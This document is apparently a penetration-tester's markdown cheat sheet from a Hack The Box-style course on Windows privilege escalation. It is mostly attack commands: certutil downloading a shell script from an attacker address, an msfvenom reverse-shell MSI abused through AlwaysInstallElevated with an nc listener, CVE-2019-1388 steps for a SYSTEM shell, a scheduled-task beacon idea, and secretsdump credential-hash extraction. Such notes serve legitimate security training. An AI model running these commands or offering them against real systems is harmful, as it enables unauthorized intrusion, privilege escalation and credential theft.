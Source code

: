 LOLBAS: https://lolbas-project.github.io/
- Code execution
- Code compilation
- File transfers
- Persistence
- UAC bypass
- Credential theft
- Dumping process memory
- Keylogging
- Evasion
- DLL hijacking

**Transferring File with Certutil
```ps
certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
```

**Ecoding a File with Certutil
```
certutil -encode file1 encodedfile
```

**Decoding File with Certutil
```
certutil -decode encodedfile file2
```

**Run DLL
https://lolbas-project.github.io/lolbas/Binaries/Rundll32/


## Always Install Elevated
- Computer Configuration\Administrative Templates\Windows Components\Windows Installer
- User Configuration\Administrative Templates\Windows Components\Windows Installer

**Enumerating Always Install Elevated Settings
```ps
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

**Generating MSI Package
```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi
```

**Executing MSI Package
```
msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```

**Catching Shell
```
nc -lvnp 9443
```

## CVE-2019-1388

1. Right-click on hhupd.exe and Run as administrator
2. Click on Show information about the publisher's certificate. If SpcSpAgencyInfo is located in the Details tab, it is vulnerable.
3. In the General tab, the Issued by is a hyperlink. Click on it and then click OK.
4. We are now running the browser as NT Authority/SYSTEM. Time to break out of the browser.
5. Right-click and choose View page source. Right-click and select Save as.
6. Type c:\windows\system32\cmd.exe in the file path and hit enter.

## Scheduled Tasks

**Enumerating Scheduled Tasks
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks
```
schtasks /query /fo LIST /v
```

**Enumerating Scheduled Tasks with PowerShell
https://docs.microsoft.com/en-us/powershell/module/scheduledtasks/get-scheduledtask?view=windowsserver2019-ps
```
Get-ScheduledTask | select TaskName,State
```

**Checking Permissions on C:\Scripts Directory
```
.\accesschk64.exe /accepteula -s -d C:\Scripts\
```
- Has backups and is writeable, so let's create a beacon that calls back to our attack host. It runs as SYSTEM.


## User/Computer Description Field

**Checking Local User Description Field
```
Get-LocalUser
```

**Enumerating Computer Description Field with Get-WmiObject Cmdlet
```
Get-WmiObject -Class Win32_OperatingSystem | select Description
```


## Mount VHDX/VMDK

.vhd = Virtual Hard Disk (Hyper-V)
.vhdx = virtual hard disk v2 (Hyper-V)
.vmdk = virtual machine disk (VMware)

**Mount VMDK on Linux
```
guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmdk
```

**Mount VHD/VHDX on Linux
```
guestmount --add WEBSRV10.vhdx  --ro /mnt/vhdx/ -m /dev/sda1
```

On Windows:
- Right-click and choose Mount
- Use Disk Management utility
- Use Mount-VHD PowerShell cmdlet

**Retrieving Hashes using Secretsdump.py
SAM, SECURITY, and SYSTEM are located in C:\Windows\System32\Config
```
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```
